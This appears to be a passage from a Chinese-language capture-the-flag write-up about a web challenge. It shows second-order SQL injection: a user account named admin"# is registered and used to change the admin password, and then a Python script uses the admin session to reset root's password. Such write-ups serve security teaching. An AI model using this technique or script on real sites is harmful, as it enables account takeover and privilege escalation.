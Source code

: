 ```js
        dataType: 'text',
        success: function(data){
            // console.log(data);
            alertHandle(data);
        }
    });
}
```

有一些路由，应该有一些利用点，有root，admin和user

我们注册一个`user`账户，登录进去，可以修改密码

我看网上有些wp是直接通过这个改密码，改数据包可以修改admin的密码

但是我试了半天都不行

试一下二次注入

先注册`admin'#`,登录，修改密码，admin登录不成功

可能是闭合符号不同，利用`admin"#`,成功修改

利用这个方法改变root，发现不行，没有权限，而且admin界面还没法修改密码。

回看js代码，发现有段代码注释点，这个就有点不太一样了。

发现是个改变密码的页面

尝试通过admin来修改root的密码

```python
import requests
import base64
from hashlib import md5

url = 'http://ip地址/'
url1 = url + '?c=app&m=login'
url2 = url + '?c=admin&m=updatePass'

user1 = base64.b64encode(b'admin').decode()
user2 = base64.b64encode(b'root')
pass1 = md5(b'111').hexdigest()#需要修改自己的admin密码
pass2 = md5(b'root').hexdigest()

sess = requests.Session()

data = {
    # admin/111
    "name": user1,    # admin
    "pass": pass1     # 111
}
r = sess.post(url1, data=data)
print(r.text)

data = {
    
    "name": user2,       # root
    "newPass": pass2,    # root
    "oldPass": pass1,    # 111
    "saying": user2
}
r = sess.post(url2, data=data)
print(r.text)
```
